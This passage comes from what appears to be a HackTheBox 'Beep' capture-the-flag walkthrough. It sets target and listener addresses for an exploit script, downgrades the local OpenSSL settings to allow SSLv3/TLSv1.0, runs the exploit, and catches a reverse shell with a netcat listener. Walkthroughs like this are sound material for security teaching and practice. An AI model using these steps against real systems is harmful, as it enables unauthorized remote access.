 Now, lets change the script values to what we want.

```bash
rhost="10.10.10.7"
lhost="10.10.16.10"
extension="233"
```

Executing the script here results in some `[SSL: UNSUPPORTED_PROTOCOL] unsupported protocol` error. Let’s run `sslscan` on the site to identify what SSLs does it support.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# sslscan 10.10.10.7
Version: 2.0.12-static
OpenSSL 1.1.1n-dev  xx XXX xxxx

Connected to 10.10.10.7

Testing SSL server 10.10.10.7 on port 443 using SNI name 10.10.10.7

  SSL/TLS Protocols:
SSLv2     disabled
SSLv3     enabled
TLSv1.0   enabled
TLSv1.1   disabled
TLSv1.2   disabled
TLSv1.3   disabled
...
```

It seems like the website only supports `SSLv3` and `TLSv1.0`. Let’s change our own config file to something more generic.

```bash
- Before -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# cat /etc/ssl/openssl.cnf
...
[system_default_sect]
MinProtocol = TLSv1.2
CipherString = DEFAULT@SECLEVEL=2

- After - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# cat /etc/ssl/openssl.cnf
...
[system_default_sect]
MinProtocol = None
CipherString = DEFAULT
```

Now we should be able to run the exploit.

```bash
- Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# python 18650.py   

- Netcat listener - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# nc -nlvp 443                        
listening on [any] 443 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.7] 60562
whoami
asterisk
```
